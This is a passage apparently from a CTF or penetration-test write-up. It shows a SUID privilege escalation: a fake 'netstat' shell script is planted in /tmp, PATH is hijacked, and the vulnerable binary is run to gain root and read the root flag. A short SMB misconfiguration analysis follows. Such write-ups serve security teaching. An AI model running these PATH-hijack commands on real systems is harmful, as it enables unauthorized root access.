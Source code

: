 The vulnerability was exploited through the following steps:

1. Created a malicious netstat file:


```bash
echo "#!/bin/sh" > /tmp/netstat
echo "/bin/sh" >> /tmp/netstat
chmod +x /tmp/netstat
```

2. Modified the PATH environment variable to prioritize /tmp:


```bash
export PATH=/tmp:$PATH
```

3. Executed the vulnerable SUID binary:


```bash
/usr/bin/netscan
```

![[Pasted image 20250401151821.png]]


This exploitation succeeded because:

1. The binary used a relative path to execute netstat
2. The binary inherited the user's PATH environment variable
3. The binary had the SUID bit set, allowing it to run with root privileges


### 5.4 Root Access Verification

After exploitation, full root access was confirmed:

```bash
id
# uid=0(root) gid=0(root) groups=0(root),1001(blackjax)

cat /root/root.txt
# MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

## 6. Vulnerability Analysis - Technical Details

### 6.1 SMB Misconfiguration (CVE-N/A)

**Severity: High**

The SMB service allowed anonymous access to the 'smb' share without requiring a password. This violates security best practices that require authentication for all network services.

**Technical Impact:**

- Unauthorized access to potentially sensitive files
- Initial foothold for further system compromise
- Information disclosure
